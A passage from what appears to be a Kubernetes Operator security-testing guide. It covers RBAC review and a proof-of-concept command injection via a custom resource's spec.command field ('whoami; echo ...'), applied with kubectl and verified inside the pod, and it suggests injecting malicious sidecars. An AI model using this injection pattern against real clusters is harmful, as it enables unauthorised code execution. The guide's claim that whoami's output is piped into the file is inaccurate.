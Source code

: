 **Explanation:** This checks the RoleBindings and ClusterRoleBindings associated with the Operator's Service Account (`myoperator-sa`). Overly permissive roles grant the Operator excessive privileges.
**Expected Output:** Details of the RoleBindings and ClusterRoleBindings. Look for bindings granting cluster-admin or other highly privileged roles.
**Why:** Overly permissive RBAC is a common misconfiguration that can be exploited.

### Phase 2: Validation and Exploitation

**Scenario:** Assume the "MyResource" CRD contains a field `spec.command` that the Operator executes.  This is a classic command injection vulnerability.

**Step 5: Craft a Malicious Custom Resource**

Create a YAML file (e.g., `evil.yaml`) containing the following:

```yaml
apiVersion: example.com/v1alpha1
kind: MyResource
metadata:
  name: evil-resource
spec:
  command: "whoami; echo 'VULNERABLE' > /tmp/vulnerable"
```

**Explanation:** This YAML defines a custom resource named "evil-resource" of kind "MyResource".  The `spec.command` field contains a command injection payload.  `whoami` executes the command `whoami` and then pipes output to `/tmp/vulnerable`. This is a simple proof of concept.
**Expected Output:** None yet - this is just a configuration file.
**Why:** To inject a malicious command that the Operator will execute.

**Step 6: Create the Malicious Custom Resource**

```bash
kubectl apply -f evil.yaml
```

**Explanation:**  This command applies the YAML file, creating the "evil-resource" Custom Resource in the cluster. This triggers the Operator to reconcile the resource.
**Expected Output:** `myresource.example.com/evil-resource created`
**Why:** This prompts the Operator to process the injected command.

**Step 7: Verify Command Execution**

```bash
kubectl exec -it <operator_pod_name> -n <operator_namespace> -- cat /tmp/vulnerable
```

**Explanation:** This command executes `cat /tmp/vulnerable` inside the Operator's pod to check if the injected command was executed and the file was created.  Replace `<operator_pod_name>` with the actual name of the Operator's pod.
**Expected Output:** `VULNERABLE`
**Why:** This confirms that the command injection vulnerability is exploitable.

**Alternative approach:** If you suspect that the operator is restarting pods based on a CRD, you can attempt to inject a malicious initContainer or sidecar container into a pod managed by the operator, using the operator itself.
